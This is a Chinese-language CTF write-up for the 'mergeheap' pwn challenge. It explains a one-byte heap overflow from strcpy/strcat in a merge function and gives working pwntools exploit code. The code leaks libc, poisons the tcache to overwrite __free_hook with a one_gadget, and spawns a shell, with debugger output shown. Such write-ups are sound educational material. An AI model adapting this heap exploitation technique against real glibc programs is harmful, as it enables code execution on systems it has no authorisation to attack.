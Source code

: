 ```yaml
---
layout: post
title: 护网杯mergeheap writeup
categories: ctf
tags:  off-by-one pwn tcache
author: jcxp
---
```


## 前言
这道题考察的是堆溢出在`libc2.27`以上的利用方式,在高版本的`libc`中引入了`tcache`机制
>  tcache是libc2.26之后引进的一种新机制，类似于fastbin一样的东西，每条链上最多可以有 7 个 chunk，free的时候当tcache满了才放入fastbin，unsorted bin，malloc的时候优先去tcache找到对应大小的chunk.

## 漏洞分析

在`merge`这个功能中,当分配的堆块占用了下一`chunk`的`pre_size`位时，`strcpy`的时候会将下一`chunk`的`size`也复制，再配合`strcat`会溢出一个字节,`merge`部分函数代码如下

```c
int sub_E29()
{
  int v1; // ST1C_4
  signed int i; // [rsp+8h] [rbp-18h]
  signed int v3; // [rsp+Ch] [rbp-14h]
  signed int v4; // [rsp+10h] [rbp-10h]

  for ( i = 0; i <= 14 && qword_2020A0[i]; ++i )
    ;
  if ( i > 14 )
    return puts("full");
  printf("idx1:");
  v3 = sub_B8B();
  if ( v3 < 0 || v3 > 14 || !qword_2020A0[v3] )
    return puts("invalid");
  printf("idx2:");
  v4 = sub_B8B();
  if ( v4 < 0 || v4 > 14 || !qword_2020A0[v4] )
    return puts("invalid");
  v1 = dword_202060[v3] + dword_202060[v4];
  qword_2020A0[i] = malloc(v1);
  strcpy((char *)qword_2020A0[i], (const char *)qword_2020A0[v3]);
  strcat((char *)qword_2020A0[i], (const char *)qword_2020A0[v4]);
  dword_202060[i] = v1;
  return puts("Done");
}
```


## 漏洞利用


- 首先,填满`tcache`的链表,再分配一个`unsortbin`的`chunk`然后`free`,此时的`fd`和`bk`会存放`main_arena`的地址,然后`malloc`一个小`chunk`把`fd`填满,就可以泄露`main_arena`的地址了,代码如下:  

```python
add(200,200*'a')#0
add(200,200*'a')#1
add(200,200*'a')#2
add(200,200*'a')#3
add(200,200*'a')#4
add(200,200*'a')#5
add(200,200*'a')#6
add(200,200*'a')#7
add(200,200*'a')#8
add(200,200*'a')#9

for i in range(7):
	dele(i+1)#1-7

dele(8)#8

for i in range(7):
	add(200,200*'e')

add(8,'bbbbbbbb')

show(8)

p.recvuntil('bbbbbbbb')


leak=u64(p.recv(6).ljust(8,'\x00'))

log.info("leak=%s"%hex(leak))

libc_base=leak-288-0x10-libc.symbols['__malloc_hook']

log.info("libc_base=%s"%hex(libc_base))

```

此时堆栈的结构如下:

```c
pwndbg> x /10gx 0x5555557578f0-0x30
0x5555557578c0:	0x6565656565656565	0x6565656565656565
0x5555557578d0:	0x6565656565656565	0x0000000000000021  //chunk8
0x5555557578e0:	0x6262626262626262	0x00007ffff7dcfd60
0x5555557578f0:	0x6161616161616161	0x00000000000000b1
0x555555757900:	0x00007ffff7dcfca0	0x00007ffff7dcfca0
pwndbg> 

```
可以看到`chunk8`已经可以泄露`main_arena`的地址了

- 然后把`unsortedbin`填满,之后利用`tcache`形成两个链表,修改链表的`fd`到`__free_hook`,然后,再`malloc`,就可以`getshell`  


```python 
add(0xa0,0xa0*'a')

for i in range(7):
	dele(i+1)#1-7
gdb.attach(p,"b* 0x555555554A3A\n")
add(0x68,'aa')  #1
add(0x28,'b'*0x28)  #2
add(0x40,'d'*0x3f+'\x81')  #3
add(0x60,'c') #4
#raw_input('1')

dele(1)
merge(2,3)
dele(2)
dele(3)

one_gadget = libc_base + 0x4f322
free_hook = libc_base + 0x3ed8e8
log.info("free_hook=%s"%hex(free_hook))


add(0x70,'a'*0x20+p64(0)+p64(0x51)+p64(free_hook))
add(0x40,'b')
add(0x40,p64(one_gadget))
dele(0)
p.interactive()

```

下面的结构可以看到我们成功修改到了`__free_hook`的地址

```c 
pwndbg> bins 
tcachebins
0x50 [  1]: 0x555555757b20 —▸ 0x7ffff7dd18e8 (__free_hook) ◂— ... //free_hook
0xd0 [  7]: 0x555555757330 —▸ 0x555555757400 —▸ 0x5555557574d0 —▸ 0x5555557575a0 —▸ 0x555555757670 —▸ 0x555555757740 —▸ 0x555555757810 ◂— 0x0
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
pwndbg> 

```



- `getshell`效果如下  


```c 
$ whoami
[DEBUG] Sent 0x7 bytes:
    'whoami\n'
[DEBUG] Received 0x5 bytes:
    'jcxp\n'
jcxp
$  

```